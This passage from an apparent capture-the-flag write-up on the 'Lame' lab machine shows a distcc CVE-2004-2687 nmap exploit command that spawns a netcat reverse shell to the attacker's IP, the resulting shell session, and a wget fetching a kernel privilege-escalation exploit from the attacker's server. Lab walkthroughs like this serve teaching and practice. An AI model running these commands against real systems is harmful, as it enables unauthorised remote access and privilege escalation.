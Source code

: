 {{< highlight html >}}
sudo nmap --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.18 4445 -e /bin/bash'" -p 3632 10.10.10.3
{{< /highlight >}}

After a few moments, I will receive back a connection on my netcat listener:

{{< highlight html >}}
10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.3] 49826
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@lame:/tmp$
{{< /highlight >}}

**Note**: I have imported a python shell.


### Privilege Escalation

I am not root, so I have to figure out how to obtain full access on the machine. If I run *uname -a* I can see that the kernel version is **2.6.24**. There are different privilege escalation scripts available for this kernel version, here I'll chose this one:
https://www.exploit-db.com/exploits/8572

I download it on my machine and serve it to the target machine, where I will compile it since I know the target machine has a compiler installed:

{{< highlight html >}}
daemon@lame:/tmp$ gcc --version
gcc --version
gcc (GCC) 4.2.4 (Ubuntu 4.2.4-1ubuntu4)
Copyright (C) 2007 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
{{< /highlight >}}

I set up a python server on my machine:

{{< highlight html >}}
sudo python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
{{< /highlight >}}

And download the file from the target:

{{< highlight html >}}
daemon@lame:/tmp$ wget http://10.10.14.18:8080/exploit.c
wget http://10.10.14.18:8080/exploit.c
--09:24:13--  http://10.10.14.18:8080/exploit.c
           => `exploit.c'
Connecting to 10.10.14.18:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,781 (2.7K) [text/plain]

100%[====================================>] 2,781         --.--K/s             

09:24:13 (339.80 MB/s) - `exploit.c' saved [2781/2781]
{{< /highlight >}}
